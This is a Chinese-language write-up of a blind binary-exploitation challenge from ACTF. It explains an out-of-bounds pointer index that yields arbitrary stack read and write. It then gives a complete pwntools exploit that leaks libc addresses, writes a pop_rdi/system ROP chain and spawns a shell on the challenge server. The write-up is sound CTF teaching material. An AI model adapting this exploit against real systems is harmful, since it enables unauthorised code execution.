




这次ACTF拿了人生第一个二血，虽然题目不难，但还是写个wp庆祝下二血
写完这题后就去伯德之门启动了
题目复现
一道brop，此前我并没有写过brop的题目，因此常规的做法并不会
题目可以修改一段8字节的name，Aaaaaaa\x00，通过AD指令移动当前的光标，WS指令修改当字符的ascii码
每输完一行指令，就会回显当前字符串（8字节）
也可以一行用12A20W8D这种方式，快速执行指令
最后输入一个空行，程序就会结束
漏洞分析
经过简单测试后，发现输入8D1W后，回显会发生变化

然后我们尝试输入8D2W，8D3W等等，会发现每次回显的起始偏移都会右移一格，但总共还是8字节回显


因此我们可以猜测，name_str后偏移8字节，是一个name_str的指针name_ptr，程序通过他找到name_str并完成相应操作。
name_ptr的偏移量idx可以oob，通过这个可以实现任意写；name_ptr可以修改，通过这个可以实现任意读
su的wp中，通过任意读程序段，泄露了程序的样貌；但我做的时候并没有把name_ptr改到程序段上，而是把所有操作都在栈上完成了
漏洞利用
首先泄露栈上地址，写一个泄露偏移offset处的read_stack函数：
def read_stack(offset):
sla('aaa\x00\n> ','8D'+str(offset)+'W')
word = io.recv()
if len(word)>1:
word = word[1:1]
data = word+r(7)
print(data)
data = u64(data)
sla('> ',f'{offset}A{offset}S')
sla('>', str(offset-8)+'D')# recover the name_ptr and idx
return data
泄露完地址后，我还把name_ptr和idx都恢复了，便于后续利用
这是我泄露后得到的栈布局（猜测）
# 0-7 name_buf
# 8-16 name_ptr
# 16-23 dirty:leak_pie
# 24-31 libc_main_ret(ret)
# 32-39 stack
# 40-47 0x1000000
# 48-55 main
# 56-63
# 64-71
# 72-79 random
由于我并没有完成程序段0x555500000处的泄露，因此只得到libc_main_ret一个libc地址，然后我就陷入了一个下午的猜测libc版本环节😭，反正libc版本是2.31，小版本我也不知道，全试了一遍
接着写一个write_stack， write_stack前要读栈上的旧地址，然后计算偏移
def get_shift(old, target):
if target>=old:
return(str(target-old)+'w')
else:
return(str(old-target)+'s')
def write_stack(offset, old, target):
shift_str = get_shift(old & 0xff, target & 0xff)
sla('> ', str(offset)+'d'+shift_str)
for i in range(7):
shift_str = get_shift((old>>(8*(i+1))) & 0xff, (target>>(8*(i+1))) & 0xff)
sla('> ', '1d'+shift_str)
sla('> ', str(offset+7)+'a')
然后只需在栈上依次写下pop_rdi,binsh_addr,system_addr即可。诡异的是这里的binsh_addr我用libc里的没用，只好再栈上又写个0x6873(‘sh’)
ps:写wp时，我getsh到服务器看了下，libc版本确实诡异，难怪我binsh_addr没用

wp
from pwn import *
context.log_level = 'debug'
ru = lambda a: io.recvuntil(a, drop=True)
r = lambda n: io.read(n)
sla = lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)
sl = lambda a: io.sendline(a)
s = lambda a: io.send(a)
def lg(s,addr):
print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))
#io = process('./')
# blind
# 0-7 name_buf
# 8-16 name_ptr
# 16-23 dirty:leak_pie
# 24-31 libc_main(ret)
# 32-39 stack
# 40-47 0x1000000
# 48-55 main
# 56-63
# 64-71
# 72-79 random
def read_stack(offset):
sla('aaa\x00\n> ','8D'+str(offset)+'W')
word = io.recv()
if len(word)>1:
word = word[1:1]
data = word+r(7)
print(data)
data = u64(data)
sla('> ',f'{offset}A{offset}S')
sla('>', str(offset-8)+'D')# recover the name_ptr and idx
return data
io = remote('120.46.65.156', 32104)
stack_addr = read_stack(8)
lg('stack_addr', stack_addr)
main_addr = read_stack(48)
lg('main_addr', main_addr)
leak_libc = read_stack(24)
lg('leak_libc', leak_libc)
libc_base = leak_libc - 0x026d0a
lg('libc_base', libc_base)
one_gadget = [0xe6aee,0xe6af1,0xe6af4]
system_addr = libc_base+0x048e50
target = system_addr
old = leak_libc
lg('target', target)
def get_shift(old, target):
if target>=old:
return(str(target-old)+'w')
else:
return(str(old-target)+'s')
def write_stack(offset, old, target):
shift_str = get_shift(old & 0xff, target & 0xff)
sla('> ', str(offset)+'d'+shift_str)
for i in range(7):
shift_str = get_shift((old>>(8*(i+1))) & 0xff, (target>>(8*(i+1))) & 0xff)
sla('> ', '1d'+shift_str)
sla('> ', str(offset+7)+'a')
pop_rdi = libc_base + 0x26796
ret = pop_rdi+1
binsh = libc_base + 0x18a154
exit = libc_base + 0x000000000003e660
write_stack(24, leak_libc, pop_rdi)
new = read_stack(24)
lg('pop_rdi',new)
old = read_stack(32)
lg('old', old)
write_stack(32, old, stack_addr+40 )
new = read_stack(32)
lg('binsh',new)
old = read_stack(40)
lg('old', old)
write_stack(40, old, system_addr)
new = read_stack(40)
lg('sys',new)
old = read_stack(48)
lg('old', old)
write_stack(48, old, 0x6873)
new = read_stack(48)
lg('binsh',new)
sla('> ','')
io.interactive()
小结
这题其实也是投机取巧写的，正经应该像su那样，泄露程序原貌